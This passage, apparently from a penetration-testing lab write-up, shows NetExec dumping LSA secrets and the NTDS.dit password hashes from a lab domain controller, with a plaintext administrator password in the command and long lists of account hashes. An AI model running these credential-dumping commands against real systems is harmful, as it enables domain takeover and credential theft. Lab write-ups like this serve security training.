SMB         10.9.10.10      445    CYDC             CYBER\CYDC$:aad3b435b51404eeaad3b435b51404ee:a8b376d9e443c1102741fb5330516439:::
SMB         10.9.10.10      445    CYDC             dpapi_machinekey:0x20cff6986f5218b03a1bdabc23baf7e7fd0fd92f
dpapi_userkey:0xe82de162bd59aa54321c7bbbe1e240a38f676bfb
SMB         10.9.10.10      445    CYDC             L$ASP.NETAutoGenKeysV44.0.30319.0:17b068871931ba9c4378dab11715c0161d0c8f4c16767aa512ba4f15ef0ab242e7e3a7c3c3b986a3a0463fcc7829bb644486cadc7a11a6f55f5a8ceefa80bae275661ac01833db1677abc0d89c59354b283c13032cf63692c2cb0714fa6dd158b6613a0e260165790fa30fa4738cb1e2b8f9b6cc31b23a2d762ce70b2331a38b179b29359f85e9747806dcbf829b33f387eb770f4550e12e0a82baf7b65c54d55f946423495e13f1959f9b6b18153636fcfe3fcf5524cf572998c78b8f85d13147fc1246caf4ec3bd32434b211b0f4a57348dfafcdee746bb9020e3edb899a03dd0fc4927b0a5180254771d3eff2a31a1c358fab7898558835a38bbccb6af30d4956be6c38823115fbc5ec3136b0767a37ee4cd86ed6fb5014c98aee8727e01ac6213189b1bf6983ecccc53ba3e8745c5580f2f209808df4e0518768476ad6c0a53760abbc7af7d5058947c8db2e7d5741d3c058efb06141d3000ae2b15182e0ce9233efc4984577d617f591691737703e436dd9047be8f1c0a0550023f32bae5e15353c19706a4f1418658a822e4504d0c497fafa19532acf6129a136c2e1cbf6ac5262d7addcdf29b2ef83a0f4fab989acd09e33873dc664d5e5406b5ccccb06d09713d8db4dcf518ca8ad39930d4cb98a770be0ff3d46d52890ad437cb3fd227243712aab841876b8741f69c11f4608f9e5e228f8747beee76132b32dcf515f77c5adf4880d061e1fd039b1ce9c85856340689167475caebcb08ab363b9808ed529c647e2b08cc04e45936881b6cd6a67932078e14caa24abf15504e1f773a3fdf75eb6e2ab1e67935ed950d047af6452a836d5fb3e560634dc8d95a9541b1c50e516085e306753ff14c74d9b5f8ac74c16ffbfa8ed7972457555827676b7fd2433be04c0864591c6e77b8a66256bf5e05786ec419d9ceecde1b95fc27564e664cd376be6533e93870a05c1e1492af48548aee750716d2391b806f789331b1e1669180189ccd5969dc3c024d02c667f1208c8537c10b4d5dbdbcfaed0e23d5a09bec0f21a9fdca1eff8e25aad9a3444303121dfb9d9f8c6e6baf8fd0551d31913344ff8a33a60cbc9502fb36852f58e6f7bc9caea588d8e328543fbf92c89d821cad581ca9247ef1cab0af7c529d00c89908246fa735fe62b5426ac2ff9ffada61958445a0227b492742bd95ca6203b719f9524d2e4ae09a53e46937646a99516a3a4fb5de23023f7a4d1c3e74031c4a3da60c71fa6dd3df0ecf70350900f96189830eb782b34b7b2381c5830dccea31df10201acd98cbd3db3f6e25d35879432c78e7bc116a8b031e82ab72df4d3530edb5d101db335ba8e6575045c7f75d6223d4170f8e5ece0aaf9fe6f9f2e24583981419282df7007ddaa5a8180a76cfb344ce7de4a1dcf7d92362e08f84ab0df9a4827a30fed8e50679ac94911d706
SMB         10.9.10.10      445    CYDC             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.10.10      445    CYDC             _SC_{262E99C9-6160-4871-ACEC-4E61736B6F21}_svc_adcs$:7e28017186026ceff0d2bd001405459281ce3ce27c3d6a4b951b1cafce56343a63a2d13bdffbc076f6b2482f791817a6c575baff81384e0f435c9a3f54149b8ab95d37325b5a69427e51abcab9f3706b2fa4d3298852085cd6daf897ca7afeea30928cb40072e53b76db22fc8dcbda230528da51a835fd4477e1b732de5d0e6894197110e1fcc16a5aefe23cb61d4ec335d92d3fe73196cb1d9dc2dd2a7875cfcd0c61c47c6ce9a16122471f62539685ada1d197ecc8f8973af5f88ec5e08a0c908bd4410d99969d314dfd2212741366262867092f5571dbd5fb944038c6a9186444bec824bd135e2eb1347cba278878
SMB         10.9.10.10      445    CYDC             [+] Dumped 9 LSA secrets to /root/.nxc/logs/CYDC_10.9.10.10_2024-06-19_221441.secrets and /root/.nxc/logs/CYDC_10.9.10.10_2024-06-19_221441.cached
```

And dumping the NTDS util:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.10 -u 'Administrator' -p '9ze9wL0C!3' -M ntdsutil
SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.10      445    CYDC             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
NTDSUTIL    10.9.10.10      445    CYDC             [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\171882826
NTDSUTIL    10.9.10.10      445    CYDC             Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.10.10      445    CYDC             [+] NTDS.dit dumped to C:\Windows\Temp\171882826
NTDSUTIL    10.9.10.10      445    CYDC             [*] Copying NTDS dump to /tmp/tmpnn4yzfuk
NTDSUTIL    10.9.10.10      445    CYDC             [*] NTDS dump copied to /tmp/tmpnn4yzfuk
NTDSUTIL    10.9.10.10      445    CYDC             [+] Deleted C:\Windows\Temp\171882826 remote dump directory
NTDSUTIL    10.9.10.10      445    CYDC             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:8306115eb5aeb7072c5c601b8507a562:::
NTDSUTIL    10.9.10.10      445    CYDC             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             CYDC$:1000:aad3b435b51404eeaad3b435b51404ee:a8b376d9e443c1102741fb5330516439:::
NTDSUTIL    10.9.10.10      445    CYDC             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f05a963b5816976576d562de4e3f117e:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Dennis.Hinkle:1103:aad3b435b51404eeaad3b435b51404ee:e7311fe2ba2adb11cb428828cecb9784:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Emogene.Kremer:1104:aad3b435b51404eeaad3b435b51404ee:177486f4f6e4fe7ee68f23d3f8ffd841:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Laurette.Partridge:1105:aad3b435b51404eeaad3b435b51404ee:487c5a3dc92fe19e51ee45b392c4c5f3:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Forrest.Lowery:1106:aad3b435b51404eeaad3b435b51404ee:f4461c393cf55dc1568612395cbefe64:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Angela.Stark:1107:aad3b435b51404eeaad3b435b51404ee:9a4a9f8602baf24103fe774251ac7ad7:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Arthur.Pearlman:1108:aad3b435b51404eeaad3b435b51404ee:39d243b2e88a75841c3687fe759b4fc9:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\David.Hurley:1109:aad3b435b51404eeaad3b435b51404ee:4c44194cbd4ba4bf587e7a7ffeb9b684:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Bradley.Frederick:1110:aad3b435b51404eeaad3b435b51404ee:68bdf51738c4ce89b5172714a2d2a539:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Michael.Fowler:1111:aad3b435b51404eeaad3b435b51404ee:be99a04ce61c629749d5db2d80807aa6:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\William.Donovan:1112:aad3b435b51404eeaad3b435b51404ee:2b5b18f7f65138c66e0895ee1f148477:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Robert.Ortiz:1113:aad3b435b51404eeaad3b435b51404ee:dd9444752c9fb8417b2b8c288a027f73:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Wanda.McGee:1114:aad3b435b51404eeaad3b435b51404ee:c6b91ed743ec30f240fcaa5e2b1690db:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Frederick.Noble:1115:aad3b435b51404eeaad3b435b51404ee:2b33ea134cf620ad79936801bb7befef:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Ashley.Locascio:1116:aad3b435b51404eeaad3b435b51404ee:31bff3367520c8e8400486053ff1ee1e:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Viola.Soto:1117:aad3b435b51404eeaad3b435b51404ee:1fa311efe208c9ac16ba7c66cd9cb738:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Ira.Ferreira:1118:aad3b435b51404eeaad3b435b51404ee:9bb885a6964ba59f19de26f981b4620c:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Laurie.Libby:1119:aad3b435b51404eeaad3b435b51404ee:60b2b4434e6ebe0d6c68ebbbd7ec2158:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Fred.Filip:1120:aad3b435b51404eeaad3b435b51404ee:b0c10df4c4f1c83348c0c4bbe79a28dd:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Brandon.Suggs:1121:aad3b435b51404eeaad3b435b51404ee:f964d34ebc84e009e61416194143b315:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Jack.Bundy:1122:aad3b435b51404eeaad3b435b51404ee:aaddcb19367435b62c13c6d66d12230a:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Tomeka.Ohara:1123:aad3b435b51404eeaad3b435b51404ee:43426aabc115e0f5e1961b4e66c20230:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Daniel.Manning:1124:aad3b435b51404eeaad3b435b51404ee:2f3aa45eabcec03d487a730eca72bc73:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Gina.Horner:1125:aad3b435b51404eeaad3b435b51404ee:13899df4a594e016a86123ae535e151c:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Judith.Conti:1126:aad3b435b51404eeaad3b435b51404ee:2b6b608e1087ea22b53dd794afcd1816:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Katherine.Hayes:1127:aad3b435b51404eeaad3b435b51404ee:5e589013be4f1ace76f404f305f0228c:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Minnie.Weber:1128:aad3b435b51404eeaad3b435b51404ee:b599056cbeac5c71ff858796580de5ae:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Richard.Hause:1129:aad3b435b51404eeaad3b435b51404ee:93aa7b9b204b72d7ead3ed103c709f0d:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Sabrina.Sellers:1130:aad3b435b51404eeaad3b435b51404ee:a42f5f4a6f36ef4bda1f73c4260dd218:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Tyrone.Stewart:1131:aad3b435b51404eeaad3b435b51404ee:a45cd84c00eefa9f04e6ee2cf5fb2bff:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Richard.Thomas:1132:aad3b435b51404eeaad3b435b51404ee:9c95c3bfb3504fd92f6c6b55f398107c:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Micheal.Crosley:1133:aad3b435b51404eeaad3b435b51404ee:06442ae994bd82cd618915793308b8f5:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Charlene.Butcher:1134:aad3b435b51404eeaad3b435b51404ee:0492b563f9d399881fa3134e63dea91c:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Lorraine.McDonald:1135:aad3b435b51404eeaad3b435b51404ee:62ad9e7e319e3a18cf33281f9d3aeb42:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\David.Gaines:1136:aad3b435b51404eeaad3b435b51404ee:1c3d3a63afe6a758c243b81c16253c0a:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Elda.Martinez:1137:aad3b435b51404eeaad3b435b51404ee:85ce9136da6ea049d416a4608b66ecc2:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Ronald.Shepard:1138:aad3b435b51404eeaad3b435b51404ee:97fb63e3ad16b373fd005862258da80b:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Justin.Doty:1139:aad3b435b51404eeaad3b435b51404ee:2a99b57c0801f3430ec94503a83cbbf2:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Silvia.Harrison:1140:aad3b435b51404eeaad3b435b51404ee:a1f7fb1ee76b2796b1ffccd0f8da8373:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Amanda.Green:1141:aad3b435b51404eeaad3b435b51404ee:f9fc52bd42d0e884b7f76ce9bcb9dc37:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Terri.Benson:1142:aad3b435b51404eeaad3b435b51404ee:778097f8c94147e3e28c5bed45b4c4a1:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\John.Braud:1143:aad3b435b51404eeaad3b435b51404ee:20722596f1c4c20088e44e9c051dc284:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Trevor.Cabrera:1144:aad3b435b51404eeaad3b435b51404ee:9f60d0e6fa5d11ef5fa7061778edf181:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Janet.Raymond:1145:aad3b435b51404eeaad3b435b51404ee:c6dc8d3e6a6b46aac5f9bb848c5677d7:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Jenny.Vickers:1146:aad3b435b51404eeaad3b435b51404ee:89d734ea7506b5cd18ae85697dbe16f0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Celia.Joplin:1147:aad3b435b51404eeaad3b435b51404ee:cec45533488f390e70ee37847d217e2f:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Frank.Barna:1148:aad3b435b51404eeaad3b435b51404ee:9e9e69c653fc4f57722d03ccbea3c9dd:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Juan.Hutchins:1149:aad3b435b51404eeaad3b435b51404ee:5680350caa864b280c6192660db24537:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Tommy.Harness:1150:aad3b435b51404eeaad3b435b51404ee:bf842254da101593342561076bfa0a87:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Dino.Longoria:1151:aad3b435b51404eeaad3b435b51404ee:c798dd70062b6e8e706683bfa1ebbe40:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Gary.Jackson:1152:aad3b435b51404eeaad3b435b51404ee:403615ef68bca85cf3db510eb896524d:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\cyadfs$:1175:aad3b435b51404eeaad3b435b51404ee:6cece4b8e67d3c1f639c5c118f1ddbf4:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\cywap$:1176:aad3b435b51404eeaad3b435b51404ee:22e7f6a449c16599d467c42233c31fa1:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\cymx$:1177:aad3b435b51404eeaad3b435b51404ee:9eb6cad62f06ba64c360aa2cba767382:::
NTDSUTIL    10.9.10.10      445    CYDC             svc_adfs$:1179:aad3b435b51404eeaad3b435b51404ee:276dd5372b8b4088a003f46eae04b8c9:::
NTDSUTIL    10.9.10.10      445    CYDC             svc_adcs$:1180:aad3b435b51404eeaad3b435b51404ee:eb9ea927009dac5c65a1acd2fa716678:::
NTDSUTIL    10.9.10.10      445    CYDC             core$:1181:aad3b435b51404eeaad3b435b51404ee:7ea4453a721d81bc75fb452d11302bea:::
NTDSUTIL    10.9.10.10      445    CYDC             COREDC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ilene.Rasch:1103:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Krista.Leon:1104:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Adrian.Ballard:1105:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Maria.Davidson:1106:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Marilyn.McDaniel:1107:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Reid:1108:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Liz.Noack:1109:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Nora.Chaney:1110:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kristie.Lee:1111:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Doris.Miller:1112:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Steven.Sanchez:1113:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Thomas.Hinnenkamp:1114:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Peter.Liu:1115:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Michael.Jones:1116:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Paul.Beam:1117:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jamie.Huntley:1118:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Amanda.Ring:1119:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Matthew.Ben:1120:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kimberly.Wansley:1121:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Martha.Depaz:1122:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joseph.Parker:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Daryl.Edwards:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Christopher.Glass:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kate.Simmons:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Andrew.Sebring:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lowell.Galloway:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Theresa.Knowles:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Heather.McDonald:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Cynthia.Price:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Junior.Brown:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kevin.Treadwell:1133:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Turner:1134:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Antonio.Oneal:1135:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gregory.McNemar:1136:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Wallace.Dover:1137:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Mary.Menjivar:1138:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\William.Ryan:1139:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Courtney.Echevarria:1140:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Curtis.Scott:1141:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Julia.Harvey:1142:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lawrence.Pullin:1143:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Renee.Sells:1144:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Frida.Scott:1145:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Perez:1146:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Shannon.Bailey:1147:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gale.Meade:1148:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Daryl.Keck:1149:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ed.Rother:1150:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Davis:1151:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Miguel.Suda:1152:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Amber.Veilleux:1153:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Richard.Gonzales:1154:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Shaw:1155:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Bruce.Bonner:1156:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jean.Currie:1157:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Kathryn.Middleton:1158:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Margarita.Dotson:1159:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Adam.Lester:1160:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Rachel.Crawford:1161:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Timothy.Jorgenson:1162:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\George.Wirth:1163:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Josh.Holman:1164:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Thompson:1165:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Daniel.Rodriguez:1166:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.McMillan:1167:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Mary.Davis:1168:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Thompson:1169:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jessica.Jones:1170:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Roberta.Mace:1171:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dora.Birkland:1172:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Brian.Holloway:1173:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Guadalupe.Littlejohn:1174:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Harry.Moore:1175:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
